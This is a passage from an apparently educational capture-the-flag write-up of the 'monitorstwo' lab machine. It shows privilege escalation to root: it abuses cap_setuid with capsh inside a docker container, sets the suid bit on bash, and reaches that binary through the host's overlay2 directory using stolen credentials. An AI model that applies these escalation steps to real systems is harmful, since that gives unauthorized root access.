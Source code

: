 Ok so that's a lot of capabilities, but seeing `cap_setuid` in the list is the ticket. To get a root shell you just need to invoke it:

```bash
capsh -- -p
```

Here is a breakdown of each part of the command:

- `capsh` - invokes the `capsh` command-line utility.
- `--` - states that all following arguments are for `/bin/bash`
- `-p` - From the bash manual, if the `-p` option is supplied at invocation the effective user id is not reset. Since we have `cap_setuid`, this will give us an effective user id of 0.

The result:

```bash
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

## Root Privesc

I felt the root privesc was both simple and tricky at the same time.  From the docker container, when you run the `mount` command you get the following info:

```bash

www-data@50bca5e748b0:/var/www/html$ mount
overlay on / type overlay (rw,relatime,lowerdir= <snip>
upperdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff,
workdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/work,
xino=off)
```

Using the marcus creds we obtained, from an SSH session we can look at those directories:

```bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff$ ls -al
total 108
drwxr-xr-x 7 root root  4096 Mar 21 10:49 .
drwx-----x 5 root root  4096 May  2 16:08 ..
drwxr-xr-x 2 root root  4096 Mar 22 13:21 bin
drwx------ 2 root root  4096 Mar 21 10:50 root
drwxr-xr-x 4 root root  4096 May  2 19:11 run
drwxrwxrwt 4 root root 69632 May  3 01:43 tmp
drwxr-xr-x 4 root root  4096 Nov 15 04:13 var

```

With root access on the docker container, I set the `suid` bit on the `/bin/bash` executable. Then, from the SSH session I can see that binary in the `diff` folder:

```bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff/bin$ ls -al
total 1220
drwxr-xr-x 2 root root    4096 Mar 22 13:21 .
drwxr-xr-x 7 root root    4096 Mar 21 10:49 ..
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 bash

```
